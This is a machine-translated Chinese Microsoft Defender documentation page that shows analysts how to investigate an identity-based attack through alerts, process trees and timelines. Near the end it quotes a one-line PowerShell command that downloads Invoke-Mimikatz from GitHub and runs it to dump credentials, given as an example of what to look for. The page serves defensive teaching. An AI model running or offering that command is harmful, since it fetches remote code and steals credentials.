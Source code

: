 ```yaml
---
title: 基于身份的攻击示例
description: 逐步完成基于身份的攻击的示例分析。
keywords: 事件， 警报， 调查， 关联， 攻击， 计算机， 设备， 用户， 标识， 标识， 邮箱， 电子邮件， 365， microsoft， m365， 事件响应， 网络攻击
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 6d62e1127eabb401a6af77aa1bbf073e4cfced17
ms.sourcegitcommit: a4729532278de62f80f2160825d446f6ecd36995
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 03/31/2022
ms.locfileid: "64570098"
---
```

# <a name="example-of-an-identity-based-attack"></a>基于身份的攻击示例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**适用于：**
- Microsoft 365 Defender

Microsoft Defender for Identity可以帮助检测恶意尝试泄露组织标识。 由于 Defender for Identity 与 Microsoft 365 Defender集成，因此安全分析师可以了解来自 Defender for Identity 的威胁，例如可疑的 Netlogon 特权提升尝试。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>分析攻击Microsoft Defender for Identity

Microsoft 365 Defender分析员可以在事件页面的"警报"选项卡上按检测源筛选警报。 在下面的示例中，将检测源筛选为 **Defender for Identity**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="筛选检测源Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

选择 **可疑的哈希攻击警报** 将转到显示更多详细信息的 Microsoft Defender for Cloud Apps页面中。 通过选择"了解有关此警报类型"以阅读攻击和修正建议的说明，你始终可以了解有关警报或[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)攻击的更多信息。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑的哈希攻击警报" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>调查同一攻击Microsoft Defender for Endpoint

或者，分析员可以使用 Defender for Endpoint 了解有关终结点上活动更多信息。 从事件队列中选择事件，然后选择" **警报"** 选项卡。在这里，他们还可以识别检测源。 标记为终结点的检测源EDR终结点检测和响应，即终结点的 Defender。 分析员从此处选择由用户检测到的EDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="终结点检测和响应在 Microsoft Defender for Endpoint 门户" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

警报页面显示各种相关信息，如影响的设备名称、用户名、自动调查的状态以及警报详细信息。 警报情景描述进程树的可视化表示形式。 进程树是与警报相关的父进程和子进程的分层表示形式。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="警报处理树Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

可以展开每个进程以查看更多详细信息。 分析师可以看到的详细信息是作为恶意脚本的一部分输入的实际命令、出站连接 IP 地址和其他有用信息。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Microsoft Defender for Endpoint门户中的过程详细信息" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
通过选择 **"在时间线中** 查看"，分析员可以进一步向下钻取以确定泄露的确切时间。 

Microsoft Defender for Endpoint检测许多恶意文件和脚本。 但是，由于出站连接、PowerShell 和命令行活动的许多合法用途，某些活动在创建恶意文件或活动之前被视为恶意活动。 因此，使用时间线可帮助分析员将警报置于与周围活动的上下文中，以确定攻击的原始源或时间，否则，常见文件系统和用户活动会掩盖这些攻击。 

若要使用时间线，分析员将在警报检测 (以红色) 开始，然后向后滚动以确定导致恶意活动的原始活动何时实际启动。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="分析员的警报检测开始时间" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

了解并区分常见活动（如 Windows 更新 连接、Windows 受信任的软件激活流量、与 Microsoft 站点的其他常见连接、第三方 Internet 活动、Microsoft Endpoint Configuration Manager 活动和其他恶意活动与可疑活动）非常重要. 区分方式之一是使用时间线筛选器。 有许多筛选器可在筛选掉分析员不想查看的一切内容时突出显示特定活动。 

在下图中，分析员经过筛选，以便仅查看网络和处理事件。 此筛选条件使分析人员能够查看与事件（记事本 IP 地址建立连接）周围的网络连接和进程，我们在进程树中也可以看到这一点。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="如何使用记事本来建立恶意出站连接" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

在此特定事件，记事本恶意出站连接。 但是，攻击者通常iexplorer.exe来建立连接来下载恶意负载，因为iexplorer.exe通常被视为常规 Web 浏览器活动。

时间线中要查找的另一项是 PowerShell 用于出站连接。 分析员会通过命令（如 后跟托管恶意文件的网站的出站连接）查找成功的 PowerShell `IEX (New-Object Net.Webclient)` 连接。 

在下面的示例中，PowerShell 用于从网站下载和执行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析员可以通过在搜索栏中键入关键字来快速搜索关键字，以仅显示使用 PowerShell 创建的事件。 

## <a name="next-step"></a>后续步骤

请参阅 [网络钓鱼调查](first-incident-path-phishing.md) 路径。

## <a name="see-also"></a>另请参阅

- [事件概述](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [调查事件](investigate-incidents.md)
